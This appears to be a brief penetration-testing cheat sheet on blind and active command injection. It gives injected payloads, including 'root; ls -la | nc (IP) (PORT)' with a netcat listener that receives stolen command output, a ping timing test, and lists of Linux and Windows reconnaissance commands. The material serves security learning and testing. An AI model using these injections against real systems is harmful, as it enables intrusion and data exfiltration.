 ## Blind Command Injection
### Ways to detect Blind Command Injection:
 * #### Ping:
```bash
	#VICTIM
	ping -c 10 (IP)		#The web should be loading for 10sec.
	
	#LOCAL
	tcpdump -i <interface> "icmp"
```
* #### Redirection of Output:
```bash	
	#VICTIM
	root && uname -r > drpepper.txt		#Check the file /drpepper.txt
```
* #### Bypassing the Blind Injection with Netcat:
```bash
	#VICTIM
	root; ls -la | nc (IP) (PORT)
	
	#LOCAL
	nc -lvp (PORT)
```
---

## Active Command Injection
### Ways to detect Active Command Injection:
Vulnerable php function **passthru($command_string)**

#### Commands to try
- Linux:
```bash
echo $(ls -la)
whoami
id
ifconfig/ip addr
uname -a
ps -ef
cat /etc/os-release
lsb_release -a
hostnamectl
```
- Windows:
```
whoami
ver
ipconfig
tasklist
netstat -an
```